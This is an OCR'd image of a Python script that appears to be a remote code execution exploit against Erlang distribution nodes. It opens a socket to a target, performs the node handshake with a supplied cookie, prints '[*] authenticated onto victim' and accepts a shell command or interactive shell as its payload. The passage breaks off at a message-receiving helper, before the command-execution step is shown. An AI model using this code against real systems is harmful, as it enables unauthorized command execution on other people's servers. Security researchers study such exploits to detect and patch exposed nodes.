 ```
parser.add_argument('--verbose', action='store_true', help='Output decode Erlang binary term format received')
parser.add_argument('--challenge', type=int, default=0, help='Set client challenge value')
parser.add_argument('cmd', default=None, nargs='?', action='store', type=str, help='Shell command to execute, defaults to interactive shell')

args = parser.parse_args()

name = rand_id()

sock = socket(AF_INET, SOCK_STREAM, 0)
assert(sock)

sock.connect((args.target, args.port))

def send_name(name):
  FLAGS = (
    0x7499c +
    0x01000600 # HANDSHAKE_23|BIT_BINARIES|EXPORT_PTR_TAG
  )
  return pack('!HcQIH', 15 + len(name), 'N', FLAGS, 0xdeadbeef, len(name)) + name

sock.sendall(send_name(name))

data = sock.recv(5)
assert(data == '\x00\x03\x73\x6f\x6b')

data = sock.recv(4096)
(length, tag, flags, challenge, creation, nlen) = unpack('!HcQIIH', data[:21])
assert(tag == 'N')
assert(nlen + 19 == length)
challenge = '%u' % challenge

def send_challenge_reply(cookie, challenge):
  m = md5()
  m.update(cookie)
  m.update(challenge)
  response = m.digest()
  return pack('!HcI', len(response)+5, 'r', args.challenge) + response

sock.sendall(send_challenge_reply(args.cookie, challenge))


data = sock.recv(3)
if len(data) == 0:
  print('wrong cookie, auth unsuccessful')
  sys.exit(1)
else:
  assert(data == '\x00\x11\x61')
  digest = sock.recv(16)
  assert(len(digest) == 16)

print('[*] authenticated onto victim')


# Protocol between connected nodes is based on pre 5.7.2 format
def erl_dist_recv(f):
  hdr = f.recv(4)
  if len(hdr) != 4: return
  (length,) = unpack('!I', hdr)
  data = f.recv(length)
  if len(data) != length: return

```